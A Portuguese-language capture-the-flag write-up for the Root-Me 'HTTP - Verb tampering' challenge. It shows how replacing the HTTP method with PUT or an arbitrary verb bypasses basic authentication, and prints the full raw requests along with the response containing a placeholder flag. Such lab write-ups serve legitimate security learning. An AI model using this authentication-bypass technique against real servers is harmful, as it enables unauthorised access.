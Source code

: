 # HTTP - Verb tampering

Como o nome do desafio indica um Verb Tampering, é presumível que estamos lidando com o caso em que adulteração do método na requisição permite um bypass.

Uma leitura básica no link sobre [Verb Tampering](https://www.imperva.com/learn/application-security/http-verb-tampering/) do site da Imperva, aprendemos que adulteração arbitrária ou até mesmo utilizando métodos não bloqueados, o bypass é possível em alguns servidores afetados como nos exemplos abaixo utilizando o Intruder do Burp Suit:

## Método não bloqueado:
<b>Requisição:</b>
<pre>PUT /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Basic dGVzdGU6dGVzdGU=
</pre>

## Método arbitrário:
<b>Requisição:</b>
<pre>
ZXCV /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Basic dGVzdGU6dGVzdGU=
</pre>



<b>Resposta p/ ambos os casos:<b/>
<pre>
< html>< head>
< /head>

< h1>Mot de passe / password : (flag_here)< /h1>
< /body>< /html></pre>
